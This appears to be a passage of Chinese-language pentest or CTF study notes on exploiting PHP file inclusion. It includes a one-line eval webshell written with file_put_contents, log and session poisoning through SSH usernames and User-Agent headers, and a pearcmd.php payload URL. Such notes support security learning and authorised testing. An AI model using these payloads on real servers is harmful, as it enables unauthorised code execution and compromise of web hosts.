 该函数常于文件包含漏洞相关，通过写入指定文件，然后包含该文件，获取webshell

**file_put_contents**(
  string `$filename`,
  mixed `$data`,
  int `$flags` = 0,
  resource `$context`)

```
filename	   要被写入数据的文件名
data		要写入的数据。类型可以是 string，array 或者是 stream 资源( data 指定为 stream 资源，这里 stream 中所保存的缓存数据将被写入到指定文件中)

file_put_contents("shell.php",'<?php eval($_POST["cmd"]);?>')
```



#### 包含某些特定文件

* 包含session

  * 利用条件：session文件路径已知，且其中内容部分可控。
  * linux下session的默认路径是/tmp目录。
  * 该文件的意义见session.upload_progress函数处

    ```
    session文件名的构造是sess_   +  sessionid    ，  sessionid在cookie中可以查看
    
    有些时候，可以先包含session文件，观察里面的内容，然后根据里面的字段来发现可控的变量，从而利用变量来写入payload，并之后再次包含从而执行php代码。
    ```

* ssh log

  * 该文件记录ssh的访问日志
  * 利用条件：需要知道ssh-log的位置，且可读。默认情况下为 /var/log/auth.log
  * 执行命令

    ```
    ssh '<?php phpinfo(); ?>'@remotehost
    ```
  
* 包含environ

  * 这个文件存的是一些系统变量。  
  * 这里可控制参数是User-agent。
  * 发起请求后参数被记录在该文件里，可进行文件包含
  * 利用条件：
  
    ```
    1.php以cgi方式运行，这样environ才会保持UA头。
    2.environ文件存储位置已知，且environ文件可读。
    ```
  
  - proc/self/environ会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。
  
* **包含pearcmd.php**

    * 参考资料：[p神的文章0x06 ](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html)  
    * pecl是PHP中用于管理扩展而使用的命令行工具，而pear是pecl依赖的类库。在7.3及以前，pecl/pear是默认安装的；在7.4及以后，需要我们在编译PHP的时候指定`--with-pear`才会安装。
    * 利用条件：
        * 需要安装了pecl命令行工具。
        * 开启了`register_argc_argv`这个配置（当开启了这个选项，用户的输入将会被赋予给`$argc`、`$argv`、`$_SERVER['argv']`几个变量）
        * 不过，**在Docker任意版本镜像中，默认会开启`register_argc_argv`这个配置，pcel/pear都会被默认安装**，安装的路径在`/usr/local/lib/php` 。
    * pear工具开启后，如果register_argc_argv配置开启，可以通过对HTTP数据包中的`query-string`的数据修改来传入`$_SERVER['argv']`然后被当作percmd程序的参数（RFC3875中规定，如果query-string中不包含没有编码的`=`，且请求是GET或HEAD，则query-string需要被作为命令行参数），从而可以访问pear命令行，再通过其config-create命令传入两个参数，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中。完成文件写入，进行文件包含。
    * payload
        * `index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php`，该payload不能被url编码否则将不起作用，使用burp抓包传入该payload。
        * 根据漏洞情况将file参数名改成对应参数名，发送这个url。